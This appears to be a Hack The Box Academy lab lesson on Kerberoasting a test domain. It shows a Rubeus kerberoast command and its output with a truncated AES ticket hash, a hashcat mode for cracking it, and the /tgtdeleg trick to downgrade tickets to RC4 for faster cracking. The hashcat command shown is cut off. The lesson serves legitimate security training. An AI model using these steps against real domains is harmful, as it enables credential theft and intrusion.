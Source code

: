 
Requesting a new ticket with Rubeus will show us that the account name is using AES-256 (type 18) encryption.

#### Requesting a New Ticket

  Requesting a New Ticket

```powershell
PS C:\htb>  .\Rubeus.exe kerberoast /user:testspn /nowrap

[*] Total kerberoastable users : 1

[*] SamAccountName         : testspn
[*] DistinguishedName      : CN=testspn,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : testspn/kerberoast.inlanefreight.local
[*] PwdLastSet             : 2/27/2022 12:15:43 PM
[*] Supported ETypes       : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[*] Hash                   : $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$*testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$8939F8C5B.....[-SNIP-]
```

To run this through Hashcat, we need to use hash mode `19700`, which is `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)` per the handy Hashcat [example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) table. We run the AES hash as follows and check the status, which shows it should take over 23 minutes to run through the entire rockyou.txt wordlist by typing `s` to see the status of the cracking job.

#### Running Hashcat & Checking the Status of the Cracking Job

  Running Hashcat & Checking the Status of the Cracking Job

```shell-session
gdxqpardo@htb[/htb]$ hashcat -m 19700
```


We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

#### Using the /tgtdeleg Flag

![image](https://academy.hackthebox.com/storage/modules/143/kerb_tgs_18.png)

In the above image, we can see that when supplying the `/tgtdeleg` flag, the tool requested an RC4 ticket even though the supported encryption types are listed as AES 128/256. This simple example shows the importance of detailed enumeration and digging deeper when performing attacks such as Kerberoasting.  Here we could downgrade from AES to RC4 and cut cracking time down by over 4 minutes and 30 seconds. In a real-world engagement where we have a strong GPU password cracking rig at our disposal, this type of downgrade could result in a hash cracking in a few hours instead of a few days and could make and break our assessment.

